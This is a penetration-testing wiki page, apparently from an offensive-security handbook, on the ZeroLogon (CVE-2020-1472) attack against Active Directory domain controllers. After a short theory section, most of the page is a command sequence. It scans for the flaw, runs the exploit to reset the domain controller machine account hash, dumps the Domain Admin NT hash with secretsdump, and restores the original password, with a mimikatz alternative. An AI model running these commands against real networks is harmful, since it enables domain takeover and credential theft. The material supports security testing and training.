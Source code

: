 # 🛠️ ZeroLogon

## Theory

This attack exploits an insecure customized cryptographic protocol used in the NetLogon Remote Protocol. It allows attackers to change the password of the domain controller computer account, hence giving those attackers domain admin privileges.

## Practice

This exploit changes the NT hash of the domain controller computer account in the Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent denial of service, attackers can exploit the CVE, find the NT hash of the domain controller machine account before it was changed, and set it back in the AD.

```bash
# Scan for the vulnerability (https://github.com/SecuraBV/CVE-2020-1472)
zerologon-scan $DC_name $DC_IP_address

# Exploit the vulnerability: set the NT hash to \x00*8 (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
zerologon-exploit $DC_name $DC_IP_address

# Obtain de Domain Admin's NT hash
secretsdump -no-pass 'BREAKING.BAD/DC01$'@dc01.breaking.bad

# Obtain de machine account hex encoded password
secretsdump -hashes :a88baa3fdc8f581ee0fb05d7054d43e4 BREAKING.BAD/Administrator@dc01.breaking.bad

# Restore the machine account password (https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)
zerologon-restore breaking/dc01@dc01 -target-ip 192.168.56.101 -hexpass 69762...6945d


# (alternate option mimikatz) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'DC.DOMAIN'  /user:'DC_name$' /oldntlm:31d6cfe0d16ae931b73c59d7e0c089c0 /newntlm:<old nt hash>
```



## References

{% embed url="https://www.secura.com/blog/zero-logon" caption="" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}



